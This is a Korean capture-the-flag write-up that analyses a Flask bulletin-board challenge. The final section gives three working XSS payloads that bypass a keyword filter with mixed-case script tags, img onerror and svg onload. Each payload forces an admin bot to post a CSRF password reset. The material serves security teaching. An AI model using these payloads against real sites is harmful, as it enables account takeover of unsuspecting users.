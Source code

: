 ### 소스코드 분석

우선 해당 문제 사이트에 접속하면 어떤 기능들이 있는지 확인해 본다. Register, Login을 거치면 게시판 페이지를 만날 수 있다. `Write`와 `Logout` 기능이 구현되어 있으며 글을 작성하면 `게시판으로 돌아가기`와 `읽기 요청 보내기` 버튼이 존재한다. 게시판에는 admin이 작성한 “flag”라는 제목의 글이 존재한다. admin이 아닌 id와 pw로 로그인해서 접근해봤을 때 “You are not authorized to view this message”라는 메시지를 얻을 수 있다. 

전체적인 흐름을 봤을 때,  글쓰기 기능을 통해 공격을 시도한 뒤 관리자에게 글 읽기 요청을 보내고, admin의 계정을 탈취해서 flag라는 글을 읽어야 할 것이라고 추측해볼 수 있다. 


다음으로 app.py를 분석해 본다. 

```python
def xss_check(content):
    xss_filter = ["script", "frame", "obejct", "data", "alert","fetch","XMLHttpRequest","eval"]
    for _ in xss_filter:
         content = content.replace(_, "*")
    return content
```

```python
@app.route("/write", methods=["GET", "POST"])
@login_required
def write():
    if not current_user.is_authenticated:
        return redirect(url_for('login'))
    if request.method == "GET":
        return render_template("write.html")
    else:
        new_title = request.form.get("new_title")
        new_content = request.form.get("new_content")
        new_content = xss_check(new_content)
        new_message = {"title": new_title, "content": new_content, "author": current_user.username}
        bulletin_messages.append(new_message)
        return redirect(url_for('bulletin_board'))
```

/write로 글을 작성할 때 xss_check는 하고 있지만 사용자의 입력을 그대로 new_content에 받고 있어 XSS 취약점이 발생한다. 

```python
@app.route("/read_request/<int:message_id>")
@login_required
def read_request(message_id):
    if 0 <= message_id < len(bulletin_messages):
        message = bulletin_messages[message_id]
        if current_user.username == message["author"]:
            url = f"http://ecs-winner.chals.io/bulletin_content/{message_id}"
            admin_password = FLAG
            result = read_url(url, {"name": "admin", "value": generate_password_hash(admin_password)}, username="admin", password=admin_password)
            if result:
                return "Read request successfully sent!"
            else:
                return "Error in sending read request."
        else:
            return "You are not authorized to send a read request for this message."
    return "Invalid message ID"
```

/write로 작성한 글을 /bulltin_content로 확인해볼 수 있다. `읽기 요청 보내기` 버튼을 누르면 /read_request에 의해 해당 페이지의 url이 read_url로 전달되는 것을 확인할 수 있다. 

```jsx
def read_url(url, params, username="admin", password=None):
    try:
        capabilities = DesiredCapabilities.CHROME
        capabilities['goog:loggingPrefs'] = {'performance': 'ALL'}
        chrome_options = Options()
        chrome_options.add_argument('--headless')
        driver = webdriver.Chrome(options=chrome_options)
        if username and password:
            driver.get("http://ecs-winner.chals.io/login")
            element = WebDriverWait(driver, 10).until(
                EC.presence_of_element_located((By.NAME, "username"))
            )
            element.send_keys(username)
            element = WebDriverWait(driver, 10).until(
                EC.presence_of_element_located((By.NAME, "password"))
            )
            element.send_keys(password)
            element.submit()
        driver.get(url)
        max_wait_time = 1000
        WebDriverWait(driver, max_wait_time).until(
            EC.presence_of_element_located((By.TAG_NAME, 'body'))
        )
        return True
    except Exception as e:
        print(f"Error: {e}")
        return False
```

read_url에서는 selenium을 사용해서 url을 읽는다. /read_request에서 `read_url(url, {"name": "admin", "value": generate_password_hash(admin_password)}, username="admin", password=admin_password)` 으로 파라미터를 주었기 때문에, admin으로 로그인된 채로 요청된 url을 읽는다.

```python
@app.route("/changepw", methods=["POST"])
def changepw():
    userid = request.form.get("userid")
    userpw = request.form.get("userpw")

    if userid in users:
        old_password_hash = users[userid]
        users[userid] = generate_password_hash(userpw)
        return redirect(url_for('login'))
    
    return render_template("changepw.html", msg="false")
```

/changepw는 페이지에 접속해서는 볼 수 없는 엔드포인트이다. 해당 부분은 `POST 방식`의 요청만 가능하며, 사용자가 입력한 id와 pw를 가져와서 user에 해당 id가 존재할 경우에 비밀번호를 변경해준다. <br></br>

### 문제 풀이
코드를 분석한 결과, 예상되는 공격 시나리오는 다음과 같다. 

1. 게시글 작성을 통해 /changepw에 POST 요청을 보낸 후 admin 계정의 pw를 임의의 문자로 변경하는 스크립트를 작성한다.
2. 작성한 글의 /bulltin_content로 접속해 읽기 요청 버튼을 누른다. 
3. 현재 계정에서 로그아웃한 뒤, pw가 변경된 admin 계정으로 로그인해 flag를 확인한다. <br></br>

### 문제 해결
```html
<!--changepw.html-->
<form method="POST" action="/changepw">
        <label for="userid">Username:</label>
        <input type="text" id="userid" name="userid" required>
        
        <label for="userpw">New Password:</label>
        <input type="text" id="userpw" name="userpw" required>
        
        <button type="submit">Change Password</button>
    </form>
```

changepw.html의 형식을 확인한 뒤, 이에 알맞는 공격을 /write에 작성한다.  다음 내용들을 유의해야 한다. 
1. admin이 해당 글을 읽었을 때, /changpw에<form>내용의 POST 요청이 자동으로 이루어지는 것이 좋다.
2. xss_check를 하고 있으므로, 이를 우회해야 한다. <br></br>

### 공격 스크립트 예시 
```jsx
//대소문자 이용한 우회
<form id="csrf" method="POST" action="https://ecs-winner.chals.io/changepw">     
   <input type="text" id="userid" name="userid" value="admin">     
   <input type="text" id="userpw" name="userpw" value="aaa">     
   <button type="submit">Change Password</button> 
</form> 
<ScripT>     
   document.getElementById("csrf").submit(); 
</scrIpT>
```

```jsx
//img 태그, onerror 이용
<form id="csrf" method="POST" action="https://ecs-winner.chals.io/changepw">     
   <input type="text" id="userid" name="userid" value="admin">     
   <input type="text" id="userpw" name="userpw" value="bbb">     
   <button type="submit">Change Password</button> 
</form> 
<img src=x onerror="document.getElementById('csrf').submit();">
```

```jsx
//svg/onload 이용 
<form id="csrf" method="POST" action="https://ecs-winner.chals.io/changepw" onload="submit()">
   <input type="text" id="userid" name="userid" value="admin">     
   <input type="text" id="userpw" name="userpw" value="ccc">     
   <button type="submit">Change Password</button> 
  </form>
<svg/onload=document.getElementById("csrf").submit();>
```

해당 내용을 /write에 작성한 뒤, 읽기 요청을 보내고 나면 admin으로 로그인해서 “flag” 글을 읽을 수 있다.
